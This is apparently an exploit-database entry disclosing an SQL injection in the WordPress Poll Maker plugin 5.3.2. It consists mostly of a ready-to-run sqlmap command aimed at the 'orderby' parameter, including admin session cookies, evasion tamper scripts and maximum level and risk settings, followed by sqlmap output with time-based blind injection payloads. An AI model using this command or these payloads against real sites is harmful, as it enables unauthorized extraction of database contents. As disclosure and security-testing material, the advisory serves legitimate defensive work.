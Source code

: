 ### Exploit Title: WordPress Poll Maker Plugin SQL Injection 
### Date: 2024-07-11
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor: https://ays-pro.com/wordpress/poll-maker
### Version 5.3.2

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `Poll Maker  > `Results` > https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc
     ```
3. Search for orderby parameter.

## SQLMAP COMMAND

python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc" --cookie="wordpress_logged_in_55e28812cb0bc43705127d62a25df794=admin|1720624086|cQgkhpgoy0ZxhQSupSHRw7bo9mxcwEWyUp0VreNnZBK|d74e12a1cdecafc50c920c18d4711826598780dd360f3a637abcc68a6086f7a3; _wp_travel_engine_session=010869411d3c5e302ccf674d9a49d453||1720689253||1720688893; wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|81237d448295de9d99b8560e6b6d9d8640f81c4dbb629e550e56860775baf0b3; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|d8d2e1da10a83ab054e39b8dfa5787c0dc2d586f364bcb584983b26efb857285; wordpress_test_cookie=WP Cookie check; wp-settings-1=editor=html; wp-settings-time-1=1720687513" --batch --dbms=mysql --threads=10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 

## RESULT

Parameter: orderby (GET)
    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: page=poll-maker-ays-results&orderby=id PROCEDURE ANALYSE(EXTRACTVALUE(3054,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x58655778))))),1)# wcUc&order=desc
    Vector: PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)
---

---
[08:03:59] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:03:59] [INFO] the back-end DBMS is MySQL
[08:03:59] [PAYLOAD] id/**/PrOCEdUrE/**/analySE(exTRActvALuE(6707,CoNcAT(0x5c,(iF((VeRSION()/**/LikE/**/0x254d61726961444225),BenChmaRk(5000000,MD5(0x6e454541)),6707)))),1)#/**/ZrRh
[08:03:59] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:04:01] [DEBUG] used the default behavior, running in batch mode
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
